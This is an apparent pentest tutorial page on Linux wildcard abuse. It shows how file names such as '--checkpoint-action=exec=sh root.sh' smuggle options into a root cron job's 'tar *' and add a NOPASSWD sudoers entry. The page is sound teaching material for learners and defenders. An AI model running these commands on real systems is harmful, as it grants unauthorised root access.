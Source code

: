 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Wildcard Abuse

A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:

* &#x20;`*` An asterisk that can match any number of characters in a file name.&#x20;
* `?` Matches a single character.&#x20;
* `[]` Brackets enclose characters and can match any single one at the defined position.&#x20;
* `~` A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.
* &#x20;`-` A hyphen within brackets will denote a range of characters.

## Example

An example of how wildcards can be abused for privilege escalation is the `tar` command, a common program for creating/extracting archives. If we look at the [man page](http://man7.org/linux/man-pages/man1/tar.1.html) for the `tar` command, we see the following:

```shell-session
user@machine:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

The `--checkpoint-action` option permits an `EXEC` action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` is passed to `tar` as command-line options.

Consider the following cron job, which is set up to back up the `/home/developer` directory's contents and create a compressed archive within `/home/developer`. The cron job is set to run every minute, so it is a good candidate for privilege escalation.

```bash
#
#
mh dom mon dow command
*/01 * * * * cd /home/developer && tar -zcf /home/developer/backup.tar.gz *
```

We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.

```shell-session
user@machine:~$ echo 'echo "developer ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
user@machine:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
user@machine:~$ echo "" > --checkpoint=1
```

We can check and see that the necessary files were created.

```shell-session
user@machine:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 developer   developer      1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 developer   developer      1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 developer   developer     60 Aug 31 23:11 root.sh
```

Once the cron job runs again, we can check for the newly added sudo privileges and sudo to root directly.

```shell-session
user@machine:~$ sudo -l

Matching Defaults entries for developer on machine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on machine:
    (root) NOPASSWD: ALL
```
